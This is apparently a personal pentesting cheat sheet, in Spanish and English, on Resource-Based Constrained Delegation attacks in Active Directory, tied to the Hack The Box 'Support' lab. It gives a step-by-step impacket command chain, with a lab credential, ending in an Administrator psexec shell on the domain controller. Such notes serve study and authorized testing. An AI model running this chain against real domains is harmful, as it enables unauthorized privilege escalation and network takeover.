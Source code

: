 

## DESCRIPTION

This is similar to the basic [Constrained Delegation](/windows-hardening/active-directory-methodology/constrained-delegation) but **instead** of giving permissions to an **object** to **impersonate any user against a service**. Resource-based Constrain Delegation **sets** in **the object who is able to impersonate any user against it**.

In this case, the constrained object will have an attribute called **_msDS-AllowedToActOnBehalfOfOtherIdentity_** with the name of the user that can impersonate any other user against it.

Another important difference from this Constrained Delegation to the other delegations is that any user with **write permissions over a machine account** (_GenericAll/GenericWrite/WriteDacl/WriteProperty/etc_) can set the **_msDS-AllowedToActOnBehalfOfOtherIdentity_** (In the other forms of Delegation you needed domain admin privs).

![[Pasted image 20230321203536.png]]

![[Pasted image 20230705195432.png]]

#### Mas información
* Writeup segurido (más facil): https://systemweakness.com/hackthebox-support-writeup-69fc8827c525
* https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/resource-based-constrained-delegation
* Video s4vitar support

## EXPLOITATION

### OPTION 1: Herramienta rbcd-attack.py

Herramienta Github: https://github.com/tothi/rbcd-attack

Herramienta Kali: /home/kali/rbcd-attack

1. Añadimos una nueva máquina al dominio
```
impacket-addcomputer -computer-name '<<NOMBRE DEL PC QUE QUIERAS>>' -computer-pass <<CONTRASEÑA QUE QUERAMOS>> -dc-ip <<IP DC>> <<DOMINIO>>/<<USUARIO CON GENERIC ALL/WRITE SOBRE EL DC>>:<<PASS>>

#Ejemplo
impacket-addcomputer -computer-name 'evilcom$' -computer-pass password -dc-ip 10.10.11.174 support/support:Ironside47pleasure40Watchful
```

![[Pasted image 20230321202746.png]]

2. Añadimos al computer creado a `msDS-AllowedToActOnBehalfOfOtherIdentity` 

```
./rbcd.py -f <<NOMBRE DEL PC QUE LE HEMOS DADO>> -t <<NOMBRE DEL DC>> -dc-ip <<IP DC>> <<DOMINIO>>/<<USUARIO CON GENERIC ALL/WRITE SOBRE EL DC>>:<<PASS>>

#Ejemplo
./rbcd.py -f EVILCOM -t DC -dc-ip 10.10.11.174 support\\support:Ironside47pleasure40Watchful
```

![[Pasted image 20230321202813.png]]

3. Finally, we can get an impersonated Service Ticket for the target with Impacket’s getST.py script

```

#Ejemplo
impacket-getST -spn cifs/DC.support.htb -impersonate Administrator -dc-ip 10.10.11.174 support/EVILCOM$:password
```

![[Pasted image 20230321203049.png]]

4. Actualizamos el KRB5CCNAME

```
export KRB5CCNAME=`pwd`/Administrator.ccache;  
klist
```

![[Pasted image 20230321203121.png]]

5. Nos conectamos usando psexec

Imporante añadir antes al /etc/hosts
![[Pasted image 20230705195342.png]]

```
#Ejemplo 
impacket-psexec -k DC.support.htb
```

![[Pasted image 20230321203259.png]]

### OPTION 2: Se puede hacer de forma manual

Ver:
* https://0xdf.gitlab.io/2022/12/17/htb-support.html#auth-as-ldap
* https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/resource-based-constrained-delegation
* https://www.youtube.com/watch?v=AlrB-uBUuTA&ab_channel=S4viOnLive%28BackupDirectosdeTwitch%29

## MACHINES

* Hack The Box: Support

